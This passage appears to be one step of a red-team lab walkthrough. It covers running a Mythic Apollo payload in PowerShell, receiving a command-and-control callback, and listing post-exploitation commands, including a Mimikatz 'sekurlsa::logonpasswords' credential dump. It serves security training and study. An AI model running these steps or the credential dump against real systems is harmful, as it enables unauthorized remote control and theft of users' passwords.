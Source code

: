 ### 10. Running the Payload and Establishing Command & Control:
Run the payload in PowerShell:

```powershell
.\apollo.exe
```

![runapollo](Screenshots/mythicpayload9999Run.png)

![netstat](Screenshots/MythicPayloadEstablished.png)

Once we run it, we get a callback to our Mythic C2, allowing us to execute commands straight from Mythic. We can click on the telephone icon at the top ("Active callback") and then type in our commands at the bottom of the screen.

![apollocallback](Screenshots/apollo3callback.png)

Examples of commands we can run include:

```plaintext
whoami 
download 
ifconfig 
netstat 
screenshot 
mimikatz sekurlsa::logonpasswords 
```
